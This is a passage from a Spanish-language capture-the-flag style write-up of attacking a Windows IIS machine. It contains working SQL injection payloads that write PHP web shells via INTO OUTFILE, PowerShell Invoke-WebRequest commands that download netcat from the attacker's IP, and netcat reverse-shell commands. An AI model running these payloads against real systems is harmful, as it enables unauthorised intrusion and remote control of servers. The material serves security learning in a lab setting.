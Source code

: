 	``' union select 1,2,3,4,"prueba",6 into outfile "C:\\inetpub\\wwwroot\\uploads\\prueba.php"-- -``
	
	![17]
	
	Vemos que la respuesta del servidor es un error SQL, pero si nos dirigimos a la web, al directorio de uploads, y colocamos el nombre del archivo, veremos que podemos acceder al recurso. El siguiente paso será subir un php malicioso que ejecute una acción por medio del parámetro **system**, primero para subir un netcat al sistema, y segundo para ejecutarlo y que nos entable una reverse shell.
	
	![18]
	
+ Primero se intentó subir un php con el siguiente código:

	```
	<?php
		system('\\10.10.14.8\smbFolder\nc.exe -e cmd 10.10.14.8 443');
	?>
	```
	
	El objetivo era tomar el netcat de un servicio SMB que nosotros mismos ponemos disponible desde nuestra máquina, y así solo entablarnos la reverse shell. Sin embargo, esto no funcionó, por lo que se decidió entonces primero copiar el netcat en el sistema, y luego ejecutarlo.
	
	![19]
	
+ Para subir el archivo a la carpeta **uploads** nos valemos de la utilidad **Invoke-WebRequest** de powershell mediante la siguiente consulta:

	``' union select 1,2,3,4,"<?php system('powershell iwr -Uri http://10.10.14.8/nc.exe -OutFile C:\\inetpub\\wwwroot\\uploads\\nc.exe'); ?>",6 into outfile "C:\\inetpub\\wwwroot\\uploads\\shell.php"-- -``
	
	![20]
	
	Una vez visitamos la página de este php creado, y teniendo un netcat.exe en una carpeta compartida por medio de un servidor HTTP con ayuda de Python, veremos en esta consola una petición GET de dicho recurso, por lo que debemos confiar en este punto de que el archivo se subió a la máquina y se guardó. Digo confiar porque siempre puede suceder que el sistema tome el archivo pero no lo quiera guardar si está activo el Defender.
	
+ Lo siguiente es subir un nuevo archivo php, pero este ahora ejecutará el netcat para entablarnos una reverse shell.

	``' union select 1,2,3,4,"<?php system('C:\\inetpub\\wwwroot\\uploads\\nc.exe -e cmd 10.10.14.8 443'); ?>",6 into outfile "C:\\inetpub\\wwwroot\\uploads\\shell2.php"-- -``
	
	![21]
	
	Si en otra consola nos ponemos en escucha con netcat en el puerto especificado, y visitamos el recurso php que acabamos de crear, veremos que se nos entabla una comunicación y tenemos acceso al sistema.
	
	![22]
	
+ Ya dentro del sistema, vemos que no podemos acceder a los archivos de ningún usuario. Vemos uno en particular, llamado **Hector**. Recormdemos que logramos obtener sus credenciales del dumpeo de la base de datos, sin embargo, no tenemos un servicio como SMB o WINRM para corroborar estar credenciales. Lo que tenemos que hacer es un PSCredential, por medio del cual ejecutaremos comandos como si fuéramos **Hector** dentro de la máquina. El objetivo sería, con estas credenciales, volver a usar el netcat para entablarnos una reverse shell ahora como este usuario.

